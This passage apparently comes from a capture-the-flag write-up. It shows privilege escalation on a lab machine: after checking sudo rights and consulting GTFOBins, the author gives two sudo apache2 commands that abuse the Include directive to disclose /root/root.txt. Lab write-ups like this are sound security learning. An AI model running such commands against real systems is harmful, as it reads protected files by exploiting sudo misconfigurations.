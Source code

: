 At this point we can read `user.txt` but let's continue onto root, let's check our privileges:


![Pasted image 20250317165535.png](../../IMAGES/Pasted%20image%2020250317165535.png)

Let's search this on GTFOBINS:


![Pasted image 20250317165608.png](../../IMAGES/Pasted%20image%2020250317165608.png)

We can read the root flag with this:

```
sudo /usr/sbin/apache2 -c "Include /root/root.txt" -k stop   

sudo -u root /usr/sbin/apache2 -C "DEFINE APACHE_RUN_DIR /tmp" -C "Include /root/root.txt" -k stop
```
